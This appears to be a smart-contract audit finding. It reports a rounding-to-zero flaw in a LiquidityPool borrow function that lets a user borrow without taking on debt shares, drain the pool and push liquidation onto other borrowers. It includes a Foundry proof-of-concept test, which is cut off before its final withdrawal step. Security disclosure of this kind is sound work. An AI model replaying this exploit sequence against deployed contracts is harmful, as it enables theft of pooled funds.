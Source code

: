 **Severity**

**Impact:** Medium

**Likelihood:** High

**Description**

The `borrow` function of the `LiquidityPool` contract calculates the amount of debt shares to credit to the borrower by multiplying the new amount borrowed by the total debt shares and dividing by the total amount borrowed (including interest).

```solidity
File: LiquidityPool.sol

142:         uint newDebtShare = borrows > 0
143:   @>        ? (debtSharesSum * amount) / borrows
144:             : (amount * 10 ** decimals()) / 10 ** poolToken.decimals();
```

In case the `debtShares * amount` is lower than `borrows`, the division will round down to 0 when `amount` is 1. This allows users to borrow tokens without generating debt shares.

A malicious user can borrow all the available tokens in the pool without generating any debt shares and withdraw them, draining the pool. Also, other borrowers in the pool will be credited with the debt of the attacker, so they can be liquidated and lose their collateral.

**Proof of concept**

```solidity
function test_debtSharesRoundDown() public {
    uint256 bobInitialWethBalance = WETH.balanceOf(address(bob));

    // Setup
    provideInitialLiquidity();
    vm.startPrank(alice);
    marginTrading.provideERC20(marginAccountID[alice], address(USDC), 10_000e6);
    marginTrading.provideERC20(marginAccountID[alice], address(WETH), 1e18);
    vm.stopPrank();
    vm.startPrank(bob);
    marginTrading.provideERC20(marginAccountID[bob], address(USDC), 10_000e6);
    marginTrading.borrow(marginAccountID[bob], address(WBTC), 100);
    vm.stopPrank();

    // Alice borrows 1 WETH
    vm.prank(alice);
    marginTrading.borrow(marginAccountID[alice], address(WETH), 1e18);

    // Interest accrues over time
    skip(10);

    // Bob borrows 1 wei and is credited 0 debt shares
    vm.prank(bob);
    marginTrading.borrow(marginAccountID[bob], address(WETH), 1);

    // Alice repays debt and interest
    vm.prank(alice);
    marginTrading.repay(marginAccountID[alice], address(WETH), 2e18);

    // Bob borrows huge amount of WETH and is credited 0 debt shares
    for (uint i = 0; i < 20; i++) {
        for (uint j = 0; j < 10; j++) {
            vm.prank(bob);
            marginTrading.borrow(marginAccountID[bob], address(WETH), 10 **i);
        }
    }

    // Bob withdraws all WETH
```